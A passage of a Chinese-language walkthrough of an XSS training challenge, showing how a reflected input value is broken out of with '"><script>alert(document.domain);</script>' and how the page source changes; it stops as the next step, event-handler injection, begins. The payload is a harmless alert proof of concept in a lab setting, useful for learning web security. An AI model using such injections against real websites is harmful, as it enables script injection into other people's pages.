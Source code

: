 提交 hello

![提交 hello](./../../../../image/XSS%20Challenges/%E6%8F%90%E4%BA%A4%20hello.png)

> 发现回显处发生了改变

**判断能否执行 javascript 代码**

查看源码

```
<input type="text" name="p1" size="50" value="hello">
```

> 发现回显位置已经改变，此时注入 javascript 并不会执行代码

**设法执行 javascript**

闭合 **input 标签**（ 利用 "> ）

执行 javascript

```
hello"><script>alert(document.domain);</script>
```

```
<input type="text" name="p1" size="50" value="hello"><script>alert(document.domain);</script>">
```

> 成功执行 javascript

查看源码

```
<input type="text" name="p1" size="50" value="hello">
<script>alert(document.domain);</script>
">
```

插入**事件** 触发执行 js（利用 " ）
